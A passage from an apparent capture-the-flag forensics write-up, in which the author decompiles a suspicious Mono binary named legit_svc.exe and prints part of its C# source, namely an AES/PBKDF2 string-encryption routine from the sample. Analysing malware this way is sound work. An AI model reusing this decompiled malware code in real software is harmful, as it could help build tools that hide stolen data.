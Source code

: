 I copied that table into [InstallRam.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/InstallRam.py) script, doing the same and
got the output file.

## `legit_svc.exe`

This is a Mono assembly too! And ILSpy can deal with it as well, producing [LegitSvc.cs](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/meme-review/LegitSvc.cs):

```csharp
using System;
using System.Diagnostics;
using System.Drawing;
using System.Drawing.Imaging;
using System.IO;
using System.Linq;
using System.Net;
using System.Security.Cryptography;
using System.Text;
using System.Threading;
using System.Windows.Forms;

internal class LegitSvc {
    public static class StringCipher {
        private const int Keysize = 256;
        private const int DerivationIterations = 1000;

        public static string Encrypt(string plainText, string passPhrase) {
            byte[] array = Generate256BitsOfRandomEntropy();
            byte[] array2 = Generate256BitsOfRandomEntropy();
            byte[] bytes = Encoding.Default.GetBytes(plainText);
            using Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, array, 1000);
            byte[] bytes2 = rfc2898DeriveBytes.GetBytes(32);
            using RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.BlockSize = 256;
            rijndaelManaged.Mode = CipherMode.CBC;
            rijndaelManaged.Padding = PaddingMode.PKCS7;
            using ICryptoTransform transform = rijndaelManaged.CreateEncryptor(bytes2, array2);
            using MemoryStream memoryStream = new MemoryStream();
            using CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Write);
            cryptoStream.Write(bytes, 0, bytes.Length);
            cryptoStream.FlushFinalBlock();
            byte[] first = array;
            first = first.Concat(array2).ToArray();
            first = first.Concat(memoryStream.ToArray()).ToArray();
            memoryStream.Close();
            cryptoStream.Close();
            return Convert.ToBase64String(first);
        }

        public static string Decrypt(string cipherText, string passPhrase) {
            byte[] array = Convert.FromBase64String(cipherText);
            byte[] salt = array.Take(32).ToArray();
            byte[] rgbIV = array.Skip(32).Take(32).ToArray();
            byte[] buffer = array.Skip(64).Take(array.Length - 64).ToArray();
            using Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, salt, 1000);
            byte[] bytes = rfc2898DeriveBytes.GetBytes(32);
            using RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.BlockSize = 256;
            rijndaelManaged.Mode = CipherMode.CBC;
            rijndaelManaged.Padding = PaddingMode.PKCS7;
```